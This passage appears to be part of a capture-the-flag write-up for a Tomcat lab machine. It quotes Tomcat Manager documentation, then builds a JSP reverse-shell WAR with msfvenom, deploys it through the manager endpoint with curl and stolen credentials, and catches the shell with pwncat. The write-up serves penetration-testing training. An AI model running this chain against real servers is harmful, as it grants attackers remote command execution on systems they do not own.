> All commands that the Manager application knows how to process are specified in a single request URI like this:
>
> `http://{host}:{port}/manager/text/{command}?{parameters}`
>
> where {host} and {port} represent the hostname and port number on which Tomcat is running, {command} represents the Manager command you wish to execute, and {parameters} represents the query parameters that are specific to that command. In the illustrations below, customize the host and port appropriately for your installation.
>
> The commands are usually executed by HTTP GET requests. The /deploy command has a form that is executed by an HTTP PUT request.

Then we can read **Deploy A New Application Archive (WAR) Remotely**.

> `http://localhost:8080/manager/text/deploy?path=/foo`
>
> Upload the web application archive (WAR) file that is specified as the request data in this HTTP PUT request, install it into the appBase directory of our corresponding virtual host, and start, deriving the name for the WAR file added to the appBase from the specified path. The application can later be undeployed (and the corresponding WAR file removed) by use of the /undeploy command.
>
> This command is executed by an HTTP PUT request.

Let's craft a WAR reverse shell.

```
$ msfvenom --list payloads | grep -i jsp
    java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell

$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=9999 -f war > revshell.war
```

```
$ curl -X PUT -u 'tomcat':'$3cureP4s5w0rd123!' -T revshell.war 'http://tabby.htb:8080/manager/text/deploy?path=/noraj'
OK - Deployed application at context path [/noraj]
```

Now the http://megahosting.htb:8080/noraj/.

Let's start a listener with [pwncat][pwncat].

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.194:39776 (family 2/IPv4, TCP)
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$
```

